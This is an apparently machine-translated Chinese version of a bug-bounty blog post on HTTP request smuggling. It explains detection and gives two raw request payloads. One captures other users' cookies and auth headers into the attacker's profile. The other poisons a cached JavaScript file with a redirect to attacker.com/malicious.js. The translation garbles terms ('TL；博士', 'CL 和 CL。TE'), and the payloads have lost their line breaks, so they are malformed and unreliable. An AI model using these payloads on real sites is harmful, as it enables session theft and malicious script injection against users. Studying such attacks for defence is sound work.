# 跨越边界:HTTP 请求的非法交易

> 原文：<https://infosecwriteups.com/crossing-the-borders-the-illegal-trade-of-http-requests-57da188520ca?source=collection_archive---------0----------------------->

**TL；博士，这篇博客文章将是一系列文章中的第一篇，这些文章将介绍一些关于发现和利用 http 请求走私漏洞的技巧和诀窍。**

这个攻击载体最近由 James Kettle (Albinowax)提出，在许多场合，他讨论了他能够用来攻击易受攻击的应用程序的不同技术，希望在这个系列中，我将介绍一些我在真实目标上测试时遇到的技术。

![](img/26a8d59deeddcad7288cfef4e91e3748.png)

图片来自 Portswigger.net

实现请求走私是相当复杂的，因为对于易受攻击的系统来说，必须存在某些条件才能被利用，我将稍后详细介绍，但现在请记住，成功检测并不一定意味着有保证的利用。

正如 James 所解释的，这种攻击利用了系统的几个层(代理、负载平衡器……)之间的差异。前端和后端可能会以不同方式处理请求，一个系统可能会使用传输编码，而另一个系统会使用内容长度来处理请求，攻击者会简单地发送一个包含两个标头的操纵请求，第一个系统会按原样转发该请求，但第二个系统会认为它收到了两个不同的请求，并会等待请求结束，因此在此期间使用该应用程序的任何随机用户都会收到损坏/中毒的响应。

攻击分为两大类。CL 和 CL。TE，我不会讨论这两者之间的区别，但是请记住，这里讨论的技术可以应用于这两种情况。

第一步是检测漏洞，漏洞可能存在于单个路径上，而不存在于其他路径上，因此这一步包括简单地探测每个主机和这些主机上的每个单个路径，这是因为在现代 web 应用程序中，路由可以使用主机头或路径来执行。在此步骤中，建议使用带有有效参数的有效 POST 请求，但如果不可能，请使用 GET 请求。詹姆斯已经为此建立了一个可靠的工具，几乎没有误报，所以做扫描应该不会太难。在一些情况下，我能够通过更改我的 ip 来发现主机上的请求走私。这主要发生在公司使用 cloudflare 或 cloudfront 时，结果表明一个系统易受攻击，而其他系统不会。这意味着我必须找到正确的来源 ip 来利用此漏洞，因此您也可以尝试找到不同的来源 IP 并扫描使用它们的主机。

现在有趣的部分，利用，这里我想讨论 cdn 中一个非常常见的行为，它发生在测试主机头注入时，例如一个有两个子域 vuln.victim.io 和 api.victim.io 的公司，如果您尝试在 vuln.victim.io 上使用主机头 api.victim.io 进行主机头注入，您会看到 api.victim.io 的内容。这在一些博客服务上也有效，这种行为本身是无害的，但随着请求走私，它变得非常重要，这意味着如果一个子域上存在请求走私，它可能会允许攻击者以其他主机为目标

一个实际的例子是这样的

```
POST / HTTP/1.1
Host: vuln.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 164
Connection: keep-alive
Transfer-Encoding: chunked9
q=exploit
0POST /personaldata HTTP/1.1
Host: api.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Cookie: MY_COOKIES
Connection: closebio=VICTIM REQUEST APPENDED HERE
```

在这种情况下，我别无选择，只能使用 api 主机将数据发布到我的个人资料中，vuln.victim.io 上的任何用户请求都将被附加到我的请求中，系统将处理该请求并将整个请求(包括受害者 cookies、auth 头和 csrf 头)发布到我的个人资料中。

当试图滥用缓存和毒害 javascript 文件时，可以应用相同的逻辑，James 讨论了为了执行这样的攻击，可以使用目录重定向+主机头注入将任何请求重定向到外部 javascript 文件，但是这种技术在某些配置上不起作用，因此通过利用前面讨论的行为，可以使用在另一台主机上找到的开放重定向

```
POST /scripts/vendor.js HTTP/1.1
Host: vuln.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 164
Connection: keep-alive
Transfer-Encoding: chunked9
q=exploit
0GET /?redir=https://attacker.com/malicious.js HTTP/1.1
Host: blog.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Cookie: MY_COOKIES
Connection: closex=VICTIM REQUEST APPENDED HERE
```

在上面的例子中，blog.victim.io 上存在一个打开的重定向，但是 vuln.victim.io 上存在请求走私，这允许我将 javascript 文件定位到 vuln.victim.io 上。

每个案例和每个目标都是不同的，所以坚持下去，黑掉这个世界。

来源:

[](https://portswigger.net/web-security/request-smuggling) [## 什么是 HTTP 请求走私？教程和示例

### 在本节中，我们将解释 HTTP 请求走私攻击，并描述常见的请求走私漏洞…

portswigger.net](https://portswigger.net/web-security/request-smuggling) [](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) [## HTTP Desync 攻击:请求走私重生

### HTTP 请求传统上被视为孤立的、独立的实体。在本文中，我将探索遗忘…

portswigger.net](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) 

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)